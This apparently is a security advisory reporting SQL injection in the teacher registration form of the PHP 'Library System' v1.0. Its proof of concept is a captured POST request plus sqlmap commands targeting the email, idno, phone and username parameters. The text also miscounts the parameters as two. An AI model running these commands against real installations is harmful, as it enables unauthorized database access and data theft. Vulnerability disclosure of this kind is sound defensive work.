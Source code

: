 # Library System In PHP - SQL Injection (Teacher registration)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/teacher/registration.php

> Two parameters `email`, `idno`, `phone`, and `username` within teacher registration are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_email.png)

![idno](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_idno.png)

![phone](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_phone.png)

![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.3Library-System-In-PHP-Sqli-teacher_registration_username.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `teacheregistration.txt`:

```
POST /Lms/Source/librarian/user/teacher/registration.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 175
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

address=555&email=0&idno=1&lecturer=1&name=TYYHyRvY&password=u]H[ww6KrA9F.x-F&phone=555-666-0606&submit=Register&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p email
```
```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p idno
```
```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p phone
```
```
sqlmap -r teacheregistration.txt --batch --dbms MYSQL --is-dba -p username
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
